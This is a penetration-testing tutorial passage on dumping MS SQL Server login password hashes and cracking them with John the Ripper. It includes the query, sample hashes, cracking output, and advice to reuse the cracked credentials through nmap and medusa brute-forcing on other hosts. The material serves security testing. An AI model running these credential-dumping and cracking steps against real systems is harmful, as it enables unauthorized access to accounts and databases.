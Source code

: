 Extract username and password hashes

```bash
select name, password\_hash FROM master.sys.sql\_logins
```

You should see something like the following

\[cce\]
1> select name, password_hash from master.sys.sql_logins
2> go

name

password_hash

-----------------------------------------
-----------------------------------------
-----------------------------------------
-----------------------------------------

sa

01004086ceb6e0bc04fe5027a51df29e1cf0b74dd3c33214d9db

travis

01007c5b54a91367647bb18d6efc4de8e9e3560037e39e9f712e
\[/cce\]

Now you can take that password hash and feed it into a password cracker such as [john the ripper](http://www.openwall.com/john/) but before you do that you'll need to add a zero plus X "0x" to the beginning of the password hash. This needs to be done because john the ripper expects password hashes in certain formats and if you need to know what that format is for various types of hash functions then [pentestmonkey](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats) is a good resource for this type of information. So your modified hash with zero plus X in front should look like the following.

```bash
0x01007c5b54a91367647bb18d6efc4de8e9e3560037e39e9f712e
```

Now put that into a text file so we can feed it to john the ripper, in this case I named it mssqlHash.txt. Next all you have to do is use the command "john" along with the file that contains the password hashes as below.

\[cce\]
root@bt:/pentest/passwords/john# john mssqlHash.txt
Loaded 1 password hash (MS-SQL05 [ms-sql05 SSE2])
secret           (?)
guesses: 1  time: 0:00:00:00 100.00% (2) (ETA: Fri Dec 16 01:18:56 2011)  c/s: 400  trying: secret - service
\[/cce\]

Here john the ripper was able to crack this hash and determined the password was "secret". So now that you've cracked some passwords on this database there's a good chance that username and password will work on other databases within the environment you're testing. Seeing how server and database admins like to keep things together that same username and password will probably work on another machine on the same vlan so just start nmap scanning to find those open ports then add the username and password you found into your medusa dictionary then let medusa do it's brute forcing and hopefully you'll find another database you can gain access to.
